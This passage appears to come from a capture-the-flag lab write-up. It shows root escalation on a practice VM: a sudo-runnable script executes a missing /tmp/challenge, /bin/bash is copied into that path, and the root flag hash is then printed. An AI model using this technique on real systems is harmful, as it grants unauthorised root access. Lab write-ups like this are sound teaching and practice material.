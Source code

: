### Exploitation

Running the command.

```
saket@ubuntu:~$ sudo /home/victor/undefeated_victor 
sudo /home/victor/undefeated_victor
if you can defeat me then challenge me in front of you
/home/victor/undefeated_victor: 2: /home/victor/undefeated_victor: /tmp/challenge: not found
```

Seems like the SUID executable is requesting a file called challenge in /tmp/
folder.

Switching to tmp folder and copying /bin/bash as “challenge”.

```
saket@ubuntu:~$ cd /tmp
cd /tmp
saket@ubuntu:/tmp$ cp /bin/bash /tmp/challenge
cp /bin/bash /tmp/challenge
```

After executing undefeated_victor again the root is obtained.

```
saket@ubuntu:/tmp$ sudo /home/victor/undefeated_victor
sudo /home/victor/undefeated_victor
if you can defeat me then challenge me in front of you
root@ubuntu:/tmp# whoami
whoami
root
root@ubuntu:/tmp# cd /root
cd /root
root@ubuntu:/root# ls -laht
ls -laht
total 92K
-rw-------  1 root root 8.4K Sep  1 05:01 .bash_history
drwx------  5 root root 4.0K Aug 31 09:08 .
-rwxr-xr-x  1 root root  442 Aug 31 09:08 t.sh
-rw-r--r--  1 root root   66 Aug 31 05:42 .selected_editor
-rw-r--r--  1 root root  123 Aug 30 09:13 key.txt
-rwxr-xr-x  1 root root  14K Aug 30 08:42 enc
-rw-r--r--  1 root root  305 Aug 30 08:42 enc.cpp
-rw-r--r--  1 root root  237 Aug 30 08:36 enc.txt
-rw-r--r--  1 root root   33 Aug 30 08:25 root.txt
-rw-------  1 root root  137 Aug 30 05:29 .mysql_history
-rw-r--r--  1 root root  805 Aug 30 03:14 sql.py
drwxr-xr-x 10 root root 4.0K Aug 30 01:03 wfuzz
drwx------  3 root root 4.0K Aug 30 01:03 .cache
drwxr-xr-x  2 root root 4.0K Aug 29 12:06 .nano
-rw-r--r--  1 root root  170 Aug 29 11:24 wordpress.sql
drwxr-xr-x 24 root root 4.0K Aug 29 10:57 ..
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
```

### Root Flag

```
root@ubuntu:/root# cat root.txt
cat root.txt
b2b17036da1de94cfb024540a8e7075a
```
